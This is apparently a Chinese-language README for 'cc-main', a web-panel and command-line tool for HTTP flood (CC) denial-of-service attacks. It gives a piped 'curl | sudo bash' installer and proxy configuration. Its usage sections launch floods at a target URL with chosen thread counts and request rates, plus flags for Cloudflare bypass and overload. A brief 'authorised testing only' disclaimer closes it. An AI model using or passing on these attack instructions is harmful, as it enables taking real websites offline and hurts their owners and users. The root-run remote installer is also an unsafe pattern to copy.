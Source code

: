# 🚀 快速启动指南

## 一键安装并启动

### 真正的一键操作
```bash
# 一条命令完成所有操作
curl -fsSL https://raw.githubusercontent.com/wudi2898/cc-main/main/one_click_all.sh | sudo bash
```

### 访问Web面板
安装完成后，自动打开浏览器访问：
- **本地访问**: http://localhost:5000
- **远程访问**: http://你的IP:5000

## 管理命令

### 服务管理
```bash
cc-start      # 启动服务
cc-stop       # 停止服务
cc-restart    # 重启服务
cc-status     # 查看状态
cc-logs       # 查看日志
```

### 手动启动
```bash
# 前台启动
./start_panel.sh

# 后台启动
./start_panel.sh -b

# 调试模式
./start_panel.sh -d

# 指定端口
./start_panel.sh -p 8080
```

## 配置代理

### 编辑代理文件
```bash
sudo nano /opt/cc-main/config/socks5.txt
```

添加SOCKS5代理，每行一个：
```
127.0.0.1:1080
192.168.1.100:7890
proxy.example.com:1080
```

### 重启服务
```bash
cc-restart
```

## 使用Web面板

### 1. 创建任务
- 选择攻击模式：CC/GET/POST/HEAD
- 输入目标URL
- 设置线程数和RPS
- 配置高级参数

### 2. 启动任务
- 点击"启动任务"
- 实时查看日志
- 监控系统状态

### 3. 停止任务
- 点击"停止任务"
- 查看统计报告

## 命令行使用

### 基础攻击
```bash
# 进入安装目录
cd /opt/cc-main

# 激活虚拟环境
source venv/bin/activate

# 运行攻击
python3 main.py cc https://target.com 100 10
```

### 高级参数
```bash
python3 main.py cc https://target.com 500 50 \
  --cf-bypass \
  --overload \
  --fire-and-forget \
  --max-connections 5000
```

## 故障排除

### 服务未启动
```bash
# 查看状态
cc-status

# 查看日志
cc-logs

# 重启服务
cc-restart
```

### 代理连接失败
```bash
# 测试代理
python3 main.py check https://httpbin.org/ip 1 1

# 检查代理文件
cat /opt/cc-main/config/socks5.txt

# 验证依赖
python3 -c "import flask, flask_socketio, psutil, socks; print('依赖正常')"
```

### 端口被占用
```bash
# 查看端口占用
lsof -i :5000

# 使用其他端口
./start_panel.sh -p 8080
```

## 卸载

### 完全卸载
```bash
sudo ./uninstall.sh
```

## 注意事项

⚠️ **重要提醒**：
- 仅用于授权的安全测试
- 遵守当地法律法规
- 获得目标系统明确授权
- 承担使用后果和责任

## 技术支持

- **项目地址**: https://github.com/wudi2898/cc-main
- **问题反馈**: 提交Issue
- **功能建议**: 提交Pull Request